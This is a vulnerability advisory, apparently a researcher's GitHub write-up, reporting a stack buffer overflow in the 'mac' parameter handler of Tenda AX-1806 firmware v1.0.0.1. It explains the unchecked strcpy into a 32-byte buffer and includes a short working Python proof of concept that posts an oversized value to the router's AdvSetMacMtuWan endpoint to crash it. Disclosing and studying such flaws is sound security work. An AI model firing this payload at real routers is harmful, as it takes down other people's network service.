


# Tenda Vulnerability

Vendor:Tenda

Product:AX-1806

Version:v1.0.0.1(https://www.tenda.com.cn/download/detail-3421.html)

Vulnerability Type: Stack Overflow

Author:Chuanhao Wan


## Vulnerability cause

In the function sub_65B5C, the mac value is obtained from user-controlled input via v5 = (const char *)sub_295C8(a1, "mac", &unk_1C2CF0) and is then copied into the local buffer v13 using strcpy(v13, v5). The buffer v13 is a fixed-size stack buffer of 32 bytes (char v13[32]), while strcpy performs no bounds checking on the source string. Because the "mac" parameter can be supplied by the user without any enforced length restriction, an attacker can provide an excessively long value to cause strcpy to write past the end of v13. This results in a stack-based buffer overflow that corrupts adjacent stack memory and may overwrite other local variables or control data, leading to a process crash and causing a Denial of Service condition.

<div  align="center"></div>


## PoC
In order to reproduce the vulnerability, the following steps can be followed:

1.Boot the firmware by qemu-system or other ways (real machine)

2.Attack with the following POC attacks


```
import requests

url = "http://192.168.20.12/goform/AdvSetMacMtuWan"

mac = "A"*7000
data = {
"mac": mac
}

r = requests.post(url, data=data)
print(r.status_code, r.text)

```


## Result

The target router crashes and cannot provide services correctly and persistently.

<div  align="center"></div>
<div  align="center"></div>